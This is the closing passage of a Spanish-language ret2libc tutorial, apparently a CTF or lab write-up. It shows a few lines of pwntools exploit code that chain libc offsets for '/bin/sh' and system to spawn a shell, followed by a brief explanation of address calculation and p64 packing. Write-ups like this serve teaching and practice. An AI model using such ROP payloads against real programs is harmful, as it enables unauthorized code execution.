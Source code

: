 ```
payload += p64(libc + bin_sh)
payload += p64(libc + system)

p.sendline(payload)
p.interactive()
```

Se pueden dar cuenta que se esta sumando la direccion de libc con los offsets de pop rdi, bin/sh, system, y ret, esto es para que nos saque la direccion real, tambien usamos "p64" para transformar esas direcciones a little endian de 64 bits, ahora ejecutamos y vemos como obtuvimos una shell

![](/imgs/ret2libc/pwn.png)

Eso ha sido todo, gracias por leer ❤
